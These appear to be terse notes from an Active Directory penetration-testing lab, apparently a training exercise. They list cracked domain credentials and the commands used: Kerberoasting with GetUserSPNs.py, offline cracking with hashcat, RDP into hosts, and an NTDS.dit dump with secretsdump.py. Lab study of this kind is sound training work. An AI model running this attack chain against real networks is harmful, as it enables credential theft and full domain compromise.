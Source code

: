 administrator:Welcome123!
asmith:Welcome1
dhawkins:Bacon1989 (ASREPRoastable)

Kerberoastable
```shell-session
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/dhawkins -request
```

Crack Kerberos Ticket offline
```shell-session
hashcat -a 0 -m 13100 hash.txt /usr/share/wordlists/rockyou.txt
```

RDP into DEV01 with administrator:Welcome123!

RDP into Domain Controller with solarwindsmonitor:Solar1010

Dump NTDS file
```shell-session
secretsdump.py -just-dc -system SYSTEM -ntds NTDS.dit INLANEFREIGHT.LOCAL/solarwindsmonitor:Solar1010@172.16.5.5
```

Local group
```shell-session
net user svc_reporting
```
